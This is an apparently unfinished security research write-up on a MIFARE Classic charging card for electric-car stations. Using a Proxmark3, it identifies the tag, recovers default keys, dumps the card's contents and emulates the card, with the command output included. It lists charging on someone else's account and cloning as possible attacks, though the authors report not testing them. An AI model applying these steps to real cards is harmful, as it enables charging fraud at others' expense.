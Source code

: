 ```yaml
---
description: This post is about a specific charging card to unlock car charging stations.
---
```


# RFID Charging card electric car

{% hint style="warning" %}
This page is still undercontruction
{% endhint %}

{% hint style="info" %}
[More information about RFID on the dedicated "Technology" page.](../technology-1/researched-technologies/untitled.md)
{% endhint %}

## Research: RFID Charging Card

#### What type of card are we facing?

To start off we will be checking the type of card. This will be done using the Proxmark 3 running on the Iceman repository. The following command will pull some basic information from the card. From there we will be able to evaluate the options.

```text
[usb] pm3 --> hf search
[=] Checking for known tags...
[|] Searching for ISO14443-A tag...
[+]  UID : XX XX XX XX XX XX XX
[+] ATQA : 00 44
[+]  SAK : 08 [2]
[+] TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1 | 1k Ev1
[+] MANUFACTURER : NXP Semiconductors Germany
[=] proprietary non iso14443-4 card found, RATS not supported
[+] Prng detection: HARD

[+] Valid ISO14443-A tag found
```

As you can see we've got a NXP MIFARE CLASSIC 1K card. Yet there's no card known to have the same ATQ and SAK values and we're pretty sure it's not a MIFARE CLASSIC 1k. The UID also suggests this isn't a card with 4 bytes. The information shown below is publicly available from nfc-tools.org.

![http://nfc-tools.org/index.php/ISO14443A](../.gitbook/assets/image.png)

While it's unclear what specific kind of card we've got on our hands it might still be possible to retrieve some data from it. Let's assume it's a Classic 1k card. 

#### Retrieving data

The data on the card is behind some sort of encryption. Most of the time these cards have default keys which uncovers the data. The following command will try default keys and dump the found keys to a binary file to use later on.

```text
[usb] pm3 --> hf mf fchk 1 d
[+] No key specified, trying default keys
[ 0] xxxxxxxxxxxx (Data has been hidden)
[ 1] xxxxxxxxxxxx
[ 2] xxxxxxxxxxxx
[ 3] xxxxxxxxxxxx
[ 4] xxxxxxxxxxxx
[ 5] xxxxxxxxxxxx
[ 6] xxxxxxxxxxxx
[ 7] xxxxxxxxxxxx
[ 8] xxxxxxxxxxxx
[ 9] xxxxxxxxxxxx
[10] xxxxxxxxxxxx
[11] xxxxxxxxxxxx
[12] xxxxxxxxxxxx
[13] xxxxxxxxxxxx
[14] xxxxxxxxxxxx
[15] xxxxxxxxxxxx
[16] xxxxxxxxxxxx
[17] xxxxxxxxxxxx
[18] xxxxxxxxxxxx
[19] xxxxxxxxxxxx
[20] xxxxxxxxxxxx
[21] xxxxxxxxxxxx
[22] xxxxxxxxxxxx
[+] Running strategy 1

[+] Chunk: 0.4s | found 32/32 keys (23)

[+] Time in checkkeys (fast):  0.4s


[=] found keys:
|---|----------------|---|----------------|---|
|sec| key A          |res| key B          |res|
|---|----------------|---|----------------|---|
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
|---|----------------|---|----------------|---|
[=] ( 0 :Failed / 1 :Success)
[+] Generating binary key file
[+] Found keys have been dumped to hf-mf-XXXXXXXXXXXXXX-key-10.bin --> 0xffffffffffff has been inserted for unknown keys.
```

Succes! This means we're able to succesfully access the data on the card. To dump the actual data \(not just the keys\) into a file we should use the previously retrieved keys to access the data and write the data onto a .eml file.

```text
[usb] pm3 --> hf mf dump
[=] Reading sector access bits...
................
[+] Finished reading sector access bits
[=] Dumping all blocks from card...
[+] successfully read block  0 of sector  0.
[+] successfully read block  1 of sector  0.
[+] successfully read block  2 of sector  0.
[+] successfully read block  3 of sector  0.
[+] successfully read block  0 of sector  1.
...

...
[+] successfully read block  3 of sector 15.
[+] time: 17 seconds


[+] Succeeded in dumping all blocks

[+] saved 1024 bytes to binary file hf-mf-XXXXXXXXXXXXXX-data-4.bin
[+] saved 64 blocks to text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] saved to json file hf-mf-XXXXXXXXXXXXXX-data-4.json
```

### Exploiting the data

There's serveral ways to use the data retrieved above. Possible scenario's could be:

* Altering data to charge on someone else's account
* Cloning the exact card from the data onto a blank pass
* Simulating the card using the proxmark3

#### Altering data

Altering data without the consent of the service provider would be unethical thus we've not tested or looked into any of the possible attack scenario's using altered data.

#### Cloning

We've tried to clone the card onto a blank pass. Unfortunately we overlooked the part where this is a card with 7 bytes of data, this killed our blank pass and left us without resources to further look into cloning. It could be very well be possible if the right blank card is used.

#### Simulating using Proxmark3

The Proxmark3 has an option to simulate the earlier retrieved data. The proxmark could function as the charging pass. To accomplish this follow my steps below.

First we will be loading the data from the eml file into memory.

```text
[usb] pm3 --> hf mf eload hf-mf-XXXXXXXXXXXXXX-data-4.eml
[+] loaded 1024 bytes from text file hf-mf-XXXXXXXXXXXXXX-data-4.eml
[=] Copying to emulator memory
................................................................

[+] Loaded 64 blocks from file: hf-mf-XXXXXXXXXXXXXX-data-4.eml
```

After which we just call the following command and we're good to go.

```text
[usb] pm3 --> hf mf sim
[=] Mifare   |  UID  N/A
[=] Options [ numreads: 0, flags: 16 (0x10) ]
#db# 7B UID: XX XX XX XX XX XX XX
#db# ATQA  : 00 44
#db# SAK   : 88
```

{% hint style="danger" %}
We have not tested the simulated card in a real environment.
{% endhint %}



